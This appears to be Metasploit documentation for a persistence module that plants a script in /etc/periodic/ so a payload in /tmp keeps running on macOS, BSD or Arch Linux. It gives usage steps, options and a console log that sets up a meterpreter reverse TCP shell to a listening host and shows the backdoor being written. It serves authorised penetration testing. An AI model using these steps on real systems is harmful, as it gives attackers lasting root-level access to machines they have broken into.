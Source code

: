 ## Description

This module provides a persistence mechanism on OSX, BSD and Arch Linux 
using periodic scripts. The modules will write a script to `/etc/periodic
/daily/`, `/etc/periodic/weekly/` or `/etc/periodic/monthly/`. This 
script will then execute a payload which is written by default to `/tmp/`.

## Verification Steps

1. Obtain a session with super user privilleges, only the root 
user has write permissions to `/etc/periodic/`
2. Do: `use exploit/multi/local/periodic_script_persistence`
3. Do: `set session #`
4. Do: `set target #`
5. Do: `set payload #`
6. Do: `set verbose true`
7. Do: `expoit`

## Options

### PERIODIC_DIR

Periodic Directory to write script eg. /etc/periodic/daily

### PERIODIC_SCRIPT_NAME

Name of periodic script

### PAYLOAD_DIR

Directory to write payload to

### PAYLOAD_FILENAME

Name of the payload file

## Scenarios
```
msf6 exploit(multi/handler) > use exploit/osx/local/periodic_script_persistence 
[*] No payload configured, defaulting to osx/x64/meterpreter/reverse_tcp
msf6 exploit(osx/local/periodic_script_persistence) > set target 2
target => 2
msf6 exploit(osx/local/periodic_script_persistence) > set session 1
session => 1
msf6 exploit(osx/local/periodic_script_persistence) > set lport 6666
lport => 6666
msf6 exploit(osx/local/periodic_script_persistence) > set payload osx/aarch64/meterpreter_reverse_tcp
payload => osx/aarch64/meterpreter_reverse_tcp
msf6 exploit(osx/local/periodic_script_persistence) > run

[*] Started reverse TCP handler on 192.168.0.239:6666 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] /etc/periodic is writable
[+] The target is vulnerable.
[+] Writing payload to /tmp/q0Y1M6djZ suceeded
[*] Succesfully wrote periodic script to /etc/periodic/daily/JPk5z2s. This will execute /tmp/q0Y1M6djZ
Cleanup script:

sudo rm /tmp/q0Y1M6djZ /etc/periodic/daily/JPk5z2s

```